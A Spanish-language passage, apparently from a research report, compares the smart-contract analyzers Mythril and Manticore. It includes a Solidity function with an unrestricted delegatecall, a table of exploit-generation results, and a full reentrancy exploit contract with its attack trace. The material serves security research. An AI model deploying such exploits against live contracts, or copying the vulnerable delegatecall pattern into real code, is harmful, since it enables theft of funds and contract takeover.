 **Vulnerabilidades Detectadas SOLO por Mythril (5 casos):**

**1. Delegatecall to Arbitrary Address (DelegateCallAuth.sol)**
```solidity
function execute(address target, bytes data) external {
    target.delegatecall(data);  // ← Mythril detectó
}

// Mythril: WARNING immediato (pattern matching)
// Manticore: MISSED (timeout antes de explorar este path)
```

**Razón:** Mythril usa pattern matching eficiente, Manticore requiere exploración exhaustiva.

### 7.7.5 Generación de Exploits (Manticore)

**47 Exploits Ejecutables Generados:**

| Categoría | Exploits Generados | Exploits Funcionales | Success Rate |
|-----------|-------------------|----------------------|--------------|
| Reentrancy | 14 | 12 | 85.7% |
| Access Control | 9 | 9 | 100% ✅ |
| Arithmetic | 6 | 5 | 83.3% |
| Uninitialized | 11 | 10 | 90.9% |
| Otros | 7 | 5 | 71.4% |
| **TOTAL** | **47** | **41** | **87.2%** |

**Ejemplo de Exploit Generado:**

```solidity
// Manticore output: exploit_BasicReentrancy_0x4a2c.sol
pragma solidity ^0.8.20;

import "./BasicReentrancy.sol";

contract Exploit {
    BasicReentrancy public victim;
    uint256 public attackCount;

    constructor(address _victim) {
        victim = BasicReentrancy(_victim);
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    }

    receive() external payable {
        if (attackCount < 10 && address(victim).balance > 0) {
            attackCount++;
            victim.withdraw(1 ether);  // ← REENTRANCY
        }
    }
}

// Test trace:
// 1. Attacker deposits 1 ETH
// 2. Attacker calls withdraw(1 ETH)
// 3. Victim sends 1 ETH → triggers receive()
// 4. Receive calls withdraw(1 ETH) again ← REENTER
```